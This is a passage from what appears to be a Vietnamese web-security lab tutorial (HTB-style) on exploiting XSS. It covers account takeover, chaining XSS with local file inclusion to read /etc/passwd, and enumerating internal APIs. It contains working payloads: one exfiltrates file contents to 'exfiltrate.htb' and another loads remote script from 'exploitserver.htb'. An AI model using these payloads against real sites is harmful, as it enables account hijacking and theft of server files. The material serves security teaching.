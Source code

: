 ```javascript
```

Khi nạn nhân kích hoạt mã XSS này, kẻ tấn công sẽ có thể đăng nhập vào tài khoản của nạn nhân bằng mật khẩu mới (`admin:pwned`), qua đó chiếm quyền điều khiển tài khoản.

### Chuỗi Các Lỗ Hổng (Chaining Vulnerabilities)

Như đã thấy, XSS cho phép kẻ tấn công kích hoạt bất kỳ tính năng nào trong ứng dụng từ ngữ cảnh của nạn nhân. Tuy nhiên, chúng ta có thể đi xa hơn và kết hợp nhiều lỗ hổng khác nhau trong ứng dụng web, ví dụ như kết hợp XSS với một lỗ hổng Local File Inclusion (LFI) để truy cập vào các tệp hệ thống mà nạn nhân không thể truy cập trực tiếp.

#### Phân tích từ góc độ của nạn nhân:

1. **Tiêm mã XSS** và **lấy thông tin từ `/home.php`** cho thấy rằng nạn nhân có thể truy cập trang `/admin.php`, nhưng tài khoản của kẻ tấn công không có quyền truy cập vào đó.
2. **Khai thác LFI**: Bằng cách thêm tham số `view` vào URL của `/admin.php`, kẻ tấn công có thể thử tải tệp từ hệ thống (như `/etc/passwd`).

#### Ví dụ mã XSS để khai thác LFI:

```javascript
<script>
    var xhr = new XMLHttpRequest();
    xhr.open('GET', '/admin.php?view=../../../../etc/passwd', false);
    xhr.withCredentials = true;
    xhr.send();

    var exfil = new XMLHttpRequest();
    exfil.open("GET", "http://exfiltrate.htb/lfi?r=" + btoa(xhr.responseText), false);
    exfil.send();
</script>
```

Sau khi nạn nhân kích hoạt mã XSS, kẻ tấn công sẽ nhận được tệp `/etc/passwd` từ máy chủ, tiết lộ thông tin quan trọng về hệ thống.

---
# Liệt kê các API nội bộ thông qua lỗ hổng XSS

Trong bài viết này, chúng ta sẽ tiếp tục sử dụng lỗ hổng XSS để thực hiện các cuộc tấn công mạnh mẽ từ phía trình duyệt của nạn nhân. Lần này, mục tiêu của chúng ta là thâm nhập và liệt kê các API nội bộ mà chỉ có thể truy cập từ mạng riêng của nạn nhân. Điều này có thể giúp chúng ta thu thập thêm thông tin nhạy cảm hoặc thậm chí tấn công vào các ứng dụng không công khai.

### Bước 1: Phát hiện API nội bộ

Chúng ta bắt đầu như đã làm trong các ví dụ trước đó, sử dụng mã XSS cơ bản để chèn vào mục guestbook hoặc bất kỳ điểm nào có thể tiêm mã JavaScript:

```html
<script src="http://exploitserver.htb/exploit"></script>
```
